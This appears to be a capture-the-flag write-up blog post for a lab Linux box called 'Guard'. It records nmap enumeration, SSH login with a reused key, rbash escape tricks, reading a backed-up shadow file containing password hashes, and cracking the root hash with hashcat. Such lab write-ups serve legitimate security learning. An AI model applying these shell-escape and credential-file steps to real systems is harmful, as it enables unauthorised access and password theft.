 ```yaml
---
title: "Writeup: Guard"
date: 2021-01-21T17:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - guard
  - update
  - nmap
  - linux
  - rbash breakout
  - scp
  - hashcat
  - linenum.sh
  - dir
---
```


Here are notes from the named target:
Target Linux
Host name Guard
IP 10.10.10.50

#Enumeration
Start with simple nmap scan - nmap -sV -sC -p- -Pn 10.10.10.50 --min-rate=10000

```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

With just port 22 SSh open can try to use credentials from earlier target
```yaml
ssh -i id_rsa daniel@10.10.10.50
```

That works so look around a bit:  ls shows user.txt in pwd > /home/picasso but cat does not show contents maybe account jail cannot run cat.

Trick is to put command in {,} brackets so > {cat,user.txt} works
```yaml
aniel@guard:~$ ls
user.txt
daniel@guard:~$ cat user.txt
daniel@guard:~$ pwd
/home/picasso
daniel@guard:~$ {cat,user.txt}
20933365...ff4070c081
daniel@guard:~$ 
```
Hmmm, cant cd to look around so have to break out

research it : https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/

the easy way in this situation is to use a man page (man man, man ls) and then follow with "!bash". that dumps you back but nor bash instead of rbash shell
```yaml
daniel@guard:~$ man ls
...
!bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

daniel@guard:~$ cat user.txt
20933...070c081
```

Now we have a working shell we can download files with a cool scp script like "linenum" puts it in the folder
```yaml
──(root💀kali)-[~]
└─# scp -i ~/.ssh/id_rsa linenum.sh daniel@10.10.10.50:/home/<username>

┌──(root💀kali)-[/home/kali/http/enum]
└─# scp -i ~/.ssh/id_rsa linenum.sh daniel@10.10.10.50:/home/picasso
linenum.sh                   100%   46KB 205.2KB/s   00:00
```
After running "linenum.sh"  > daniel@guard:~$ ./linenum.sh > enum.md:

Review the file but nothing great in this case so look around the file system for loot. We find that we can not ch to root so lets look for default directories. we already know it is a Ubunto so google it.
```yaml
Main directories
The standard Ubuntu directory structure mostly follows the Filesystem Hierarchy Standard, which can be referred to for more detailed information.

Here, only the most important directories in the system will be presented.

/bin is a place for most commonly used terminal commands, like ls, mount, rm, etc.

/boot contains files needed to start up the system, including the Linux kernel, a RAM disk image and bootloader configuration files.

/dev contains all device files, which are not regular files but instead refer to various hardware devices on the system, including hard drives.

/etc contains system-global configuration files, which affect the system's behavior for all users.

/home home sweet home, this is the place for users' home directories.

/lib contains very important dynamic libraries and kernel modules

/media is intended as a mount point for external devices, such as hard drives or removable media (floppies, CDs, DVDs).

/mnt is also a place for mount points, but dedicated specifically to "temporarily mounted" devices, such as network filesystems.

/opt can be used to store additional software for your system, which is not handled by the package manager.

/proc is a virtual filesystem that provides a mechanism for kernel to send information to processes.

/root is the superuser's home directory, not in /home/ to allow for booting the system even if /home/ is not available.

/run is a tmpfs (temporary file system) available early in the boot process where ephemeral run-time data is stored. Files under this directory are removed or truncated at the beginning of the boot process.
(It deprecates various legacy locations such as /var/run, /var/lock, /lib/init/rw in otherwise non-ephemeral directory trees as well as /dev/.* and /dev/shm  which are not device files.)

/sbin contains important administrative commands that should generally only be employed by the superuser.

/srv can contain data directories of services such as HTTP (/srv/www/) or FTP.

/sys is a virtual filesystem that can be accessed to set or obtain information about the kernel's view of the system.

/tmp is a place for temporary files used by applications.

/usr contains the majority of user utilities and applications, and partly replicates the root directory structure, containing for instance, among others, /usr/bin/ and /usr/lib.

/var is dedicated to variable data, such as logs, databases, websites, and temporary spool (e-mail etc.) files that persist from one boot to the next. A notable directory it contains is /var/log where system log files are kept.
```

In the "/var/backups" we find loot in shadow folder backup we find the hash for root and daniel
```yaml
daniel@guard:/var/backups$ cat shadow
root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
....
daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::
```

Crack the root hash with hashcat. Copy the hash to a file on Kali and use it and rockyou wordlist to crack it.

```yaml
hashcat -m 1800 --force hash /usr/share/wordlists/rockyou.txt
```

took a minute or two. then added that password to the known password list



















